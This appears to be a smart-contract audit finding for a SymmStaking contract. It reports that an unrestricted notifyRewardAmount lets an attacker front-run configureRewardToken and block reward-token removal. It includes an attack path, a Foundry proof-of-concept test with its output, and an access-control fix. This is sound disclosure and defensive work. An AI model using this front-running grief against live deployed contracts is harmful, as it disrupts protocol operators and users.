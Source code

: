 Noisy Jade Loris

Medium

# Missing access-controll in `SymmStaking::notifyRewardAmount` can potentially lead to **frontrun-based DoS** of `SymmStaking::configureRewardToken`

### Summary

When a `REWARD_MANAGER` calls `configureRewardToken` to remove a whitelisted `rewardToken` `configureRewardToken` function check if `pendingRewards[rewardToken]` is greater than `10` if true it reverts with `OngoingRewardPeriodForToken(token, pendingRewards[token])`. On the other hand `notifyRewardAmount` is a external function without access-control so any malicious attacker can call it, this in itself is a high vulnerability, because adding rewards should technically be restricted to `REWARD_MANAGER`.

The above two resons can cause a ***griefer attack***. A malicious `attacker` can frontrun `configureRewardToken` every time and call `notifyRewardAmount` a external function without access-control, leading the protocol to not behave as intended.

**References:**
- [Pending reward check in `configureRewardToken`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L320)
- [Missing access-control in `notifyRewardAmount`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275)

### Tool used

Manual Review

### Impact

- Operational Disruption: The attack can disrupt the normal operation of configuring reward tokens, leading to delays and inefficiencies. This can affect the project's ability to achieve its goals.

- Frontrunning DoS (as previously discussed): Attackers can exploit this to perform frontrun-based DoS attacks, as we've already covered.

- Unrestricted Reward Addition: Without access-control, anyone can call `notifyRewardAmount` and add reward tokens to the contract.

### Attack path

- `admin` wants to call `configureRewardToken`
- `attacker` frontruns admin and calls `notifyRewardAmount`
- [`if (pendingRewards[token] > 10)`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L320) checks in `configureRewardToken` reverts 

### PoC

- Setup `hardhat-foundry` to run the PoC which is in foundry format.
    - Install the `@nomicfoundation/hardhat-foundry` plugin: 

    ```bash

    npm install --save-dev @nomicfoundation/hardhat-foundry

    ```

    - Import it in your Hardhat config:

    ```TypeScript

    import "@nomicfoundation/hardhat-foundry";

    ```

    - To complete the setup, `run npx hardhat init-foundry`. This task will create a `foundry.toml` file with the right configuration and install `forge-std` and other dependiencies.

- Create a `.sol` file in the tests floder and add the below PoC
    <details>
    <summary>PoC</summary>


    ```java

    // SPDX-License-Identifier: MIT

    pragma solidity ^0.8.26;

    import "forge-std/Test.sol";
    import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    import {MockERC20} from "tests/MockERC20.sol";
    import {SymmStaking} from "contracts/staking/SymmStaking.sol";
    import {Symmio} from "contracts/token/symm.sol";

    contract MyTest is Test{

        address admin = address(123);
        address minter = address(234);
        address user1 = address(345);
        address user2 = address(456);
        address user3 = address(567);
        address attacker = address(987);

        SymmStaking staking;
        Symmio symmio;
        ERC20 rewardToken1;
        ERC20 rewardToken2;
        ERC20 rewardToken3;

        bytes32 MINTER_ROLE = keccak256("MINTER_ROLE");

        function setUp() public{
            staking = new SymmStaking();
            symmio = new Symmio("Symmio", "SYM", address(admin));
            staking.initialize(admin,address(symmio));
            rewardToken1 = new MockERC20("RewardToken 1", "RT1");
            rewardToken2 = new MockERC20("RewardToken 2", "RT2");
            rewardToken3 = new MockERC20("RewardToken 3", "RT3");

            vm.startPrank(admin);
            symmio.grantRole(MINTER_ROLE, minter);
            staking.configureRewardToken(address(rewardToken1), true);
            staking.configureRewardToken(address(rewardToken2), true);
            vm.stopPrank();
        }

        function testDosAtConfigureRewardToken() public{

            vm.prank(minter);
            symmio.mint(attacker, uint256(1000));
            vm.stopPrank();

            deal(address(rewardToken2), attacker, 100);
            console.log("RewardToken2 balance of attacker: ", rewardToken2.balanceOf(attacker));

            /**
             * @ATTACK PATH
             * 
             * REWARD_MANAGER wants to call `configureRewardToken`
             * attacker frontruns REWARD_MANAGER and calls `notifyRewardAmount`
             * [ if (pendingRewards[token] > 10) ] checks in `configureRewardToken` reverts
            */

            address[] memory rt = new address[](1);
            uint256[] memory amounts = new uint256[](1);
            rt[0] = address(rewardToken2);
            amounts[0] = 100;

            vm.startPrank(attacker);        // mev frontrun attack
            rewardToken2.approve(address(staking), type(uint256).max);
            staking.notifyRewardAmount(rt, amounts);
            vm.stopPrank();

            vm.prank(admin);                // admin's transaction
            staking.configureRewardToken(address(rewardToken2), false);
            vm.stopPrank();

        }

    }

    ```

    </details>


- Run the test with:
    ```bash

    forge test -vvvv

    ```

- The test fails with `OngoingRewardPeriodForToken` revert.
    ```bash

    Failing tests:
    Encountered 1 failing test in tests/myTest.sol:MyTest
    [FAIL. Reason: OngoingRewardPeriodForToken(0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9, 100)] testDosAtConfigureRewardToken() (gas: 464407)
    
    ```

### Mitigation

Add access-control to `notifyRewardAmount` 

```diff

	function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant
+   onlyRole(REWARD_MANAGER_ROLE)  // add access-control
    whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}


```